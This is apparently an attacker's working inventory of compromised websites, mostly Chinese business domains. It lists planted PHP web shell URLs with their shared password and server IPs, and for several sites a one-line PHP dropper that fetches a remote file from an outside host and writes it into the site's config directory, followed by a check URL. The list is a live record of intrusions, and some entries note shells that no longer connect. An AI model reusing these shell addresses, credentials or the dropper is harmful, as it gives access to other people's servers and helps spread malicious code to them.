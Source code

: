 
http://www.juxingjituan.com/static/upload/image/20200425/11m.php |mmk123 |  47.112.240.242
代码更新：0608 ✅
http://www.juxingjituan.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.juxingjituan.com/config/httpd.php?d=up

https://instruments.uni-trend.com.cn//template/default/datetimepicker/js/locales/mr1.php |mmk123 |  47.107.53.147  | 连接不上
https://meters.uni-trend.com.cn/static/upload/other/20221221/11m.php |mmk123 |  47.107.53.147

http://www.hhkj2021.cn/runtime/data/11m.php |mmk123 |  47.104.169.49
代码更新：0608 ✅
http://www.hhkj2021.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hhkj2021.cn/config/httpd.php?d=up

http://www.idwod.cn/assets/images/index/11m.php |mmk123 |  47.104.169.49
代码更新：0608 ✅
http://www.idwod.cn/file/httpd.php
<?php file_put_contents("../help/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.idwod.cn/help/httpd.php?d=up

http://www.huodongtoutiao.cn/static/upload/image/20230711/m11.php |mmk123 |  47.101.35.255 | 连接不上
http://ofqf.com//help/m11.php |mmk123 |  47.101.35.255
http://www.ofzs.com/help/m11.php |mmk123 |  47.101.35.255
http://www.huodongtoutiao.cn/static/upload/image/20230814/m11.php |mmk123 |  47.101.35.255

http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |www.liuzhenwu.cn -> /www/wwwroot/www.liuzhenwu.cn/images/ | 47.101.35.255
代码更新：0608 ✅
http://www.hantinghang.com/data/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hantinghang.com/config/httpd.php?d=up

http://www.hantinghang.com/static/upload/image/20221221/m11.php |mmk123 |  47.101.35.255 | 连接不上 
http://ofzs.com/help/m11.php |mmk123 |  47.101.35.255
http://aliyun.ofzj.com/help/m11.php |mmk123 |  47.101.35.255
https://hxy.gzsqykj.com/uploads/10001/20230704/11.php |mmk123 |  39.99.163.186
http://www.sdrechem.com/ruien2021.php |mmk123 |  211.149.190.167
http://zbguanlong.com/dd.php |mmk123 |  211.149.190.167
http://www.sdygsteel.com/basic.php |mmk123 |  211.149.190.167
http://www.zbyinyizhiye.com/core.php |mmk123 |  211.149.190.167
http://www.sdxlsz.com/basic.php |mmk123 |  211.149.190.167
http://www.xingfuhuanbao.com/core.php |mmk123 |  211.149.190.167

http://www.dyhuayuan.cn/core.php |mmk123 |  211.149.190.167
http://chnzttrading.com/aasaa.php |mmk123 |  211.149.190.167
http://www.sdmlqp.com/basic.php |mmk123 |  211.149.190.167
http://www.zbhzjc.com/aasaa.php |mmk123 |  211.149.190.167
http://btqgy.com/.bhbdlbl.php |mmk123 |  211.149.190.167
http://www.dyxqmj.com/basic.php |mmk123 |  211.149.190.167
http://www.zbjrbw.com/configs.php |mmk123 |  No ID found
http://guoyinjx.com/core.php |mmk123 |  211.149.190.167
http://sddayunxx.com/indexbak.php |mmk123 |  211.149.190.167
http://rdtce.com/core.php |mmk123 |  211.149.190.167
http://sdmlqp.com/aasaa.php |mmk123 |  211.149.190.167
http://dayunxx.com/.xsZml.php |mmk123 |  211.149.190.167
http://zbguanlong.com/.zlhpnpr.php |mmk123 |  211.149.190.167